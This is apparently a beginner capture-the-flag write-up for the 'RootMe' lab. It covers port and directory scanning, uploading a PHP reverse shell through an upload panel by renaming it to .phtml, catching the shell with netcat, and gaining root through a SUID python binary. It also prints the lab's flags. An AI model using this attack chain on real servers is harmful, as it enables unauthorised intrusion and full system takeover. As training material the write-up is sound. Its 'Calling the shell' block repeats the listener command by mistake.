


# RootMe

## Description

A ctf for beginners, can you root me?

## [Task 2] Reconnaissance

Let's start with an Nmap scan. The scan reveals two open ports:
* 22 ssh
* 80 http

### Initial Scan

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

From the result, we can answer the first few question:

Open ports: `2`

Apache version: `2.4.29`

Port 22 service: `SSH`

### Web Enumeration

Let's start with the webpage. The first thing I did, was running `gobuster` on the webpage and found two hidden directories:

~~~
$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP/ -x zip,txt,php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.40.107/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              zip,txt,php,html
[+] Timeout:                 10s
===============================================================
2021/10/20 09:09:08 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 310] [--> http://10.10.40.107/css/]
/index.php            (Status: 200) [Size: 616]                               
/js                   (Status: 301) [Size: 309] [--> http://10.10.40.107/js/] 
/panel                (Status: 301) [Size: 312] [--> http://10.10.40.107/panel/]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.40.107/uploads/]
~~~

Hidden directory: `/panel`

## [Task 3] Getting a Shell

We can uplaod files from `/panel` and we can see the uploaded files in `/uploads`. Let's upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell) and see what happens. (Don't forget to change the IP to yours.)
After uploading the file, it returns an error. It seems like the server doesn't accept the files with `php` extention:

We can easily bypass this by changing the extention from `php` to `phtml` which was the standard file extension for PHP 2 programs:

~~~
$ mv shell.php shell.phtml
~~~

Now we try to uplaod the file again and it goes through:

Now we can start a listener and call the shell from `/uploads`:

Listener:
~~~
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
~~~

Calling the shell:
~~~
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
~~~

Now we have a shell as `www-data`. Let's spawn a TTY shell using a python one-liner:

~~~
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.3.156] from (UNKNOWN) [10.10.40.107] 60918
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:49:52 up 45 min,  0 users,  load average: 0.00, 0.00, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
bash-4.4$
~~~

Let's find the user flag. I used the `find` command since we know the name of it. The flag is in `/var/www`:

~~~
bash-4.4$ find / -type f -name "user.txt" 2>/dev/null
/var/www/user.txt
bash-4.4$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
~~~

user.txt: `THM{y0u_g0t_a_sh3ll}`

## [Task 4] Privilege escalation

Now we need to escalate our privilege to obtain the root flag. The hint tells us to look for the files with SUID permission. So I ran the following command and one file stands out:

~~~
bash-4.4$ find / -user root -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python     <----------------------------s
/usr/bin/chfn
/usr/bin/gpasswd

[REDACTED]
~~~

Weird file: `/usr/bin/python`

It's kinda weird to see `python` here. I looked it up in [GTFOBins](https://gtfobins.github.io/) and in the SUID section we can see a privesc command. Let's run it and see what happens:

~~~
bash-4.4$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# whoami
root
~~~

### Root Flag

And it works. We are root now, so let's go ahead and read the root flag in `/root`:
\
~~~
# cd /root
# ls
root.txt
# cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
~~~

root.txt: `THM{pr1v1l3g3_3sc4l4t10n}`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and have a good one! : )
